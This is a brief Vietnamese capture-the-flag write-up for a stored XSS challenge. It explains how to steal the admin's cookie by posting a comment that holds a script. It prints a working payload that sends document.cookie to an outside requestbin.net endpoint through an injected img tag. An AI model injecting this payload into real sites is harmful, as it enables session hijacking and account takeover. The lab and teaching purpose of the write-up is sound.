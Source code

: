 ```yaml
---
layout: post
title: Xss Stored 1
---
```

challenge xss store là dạng tấn công lưu script vào hệ thống và chờ `interact` từ người dùng.

Để bypass được chall này cần lấy được `cookie` của admin thông qua lỗi xss này.

Flow là: Tạo server nhận request (recommend `https://requestbin.net/`) => chèn script thông qua comment => admin click => nhận cookie từ server.

script example:
{% highlight ruby %}
<script>document.write("<img src='https://requestbin.net/r/74gr8kdr?="+document.cookie+"'></img>");</script>
{% endhighlight %}
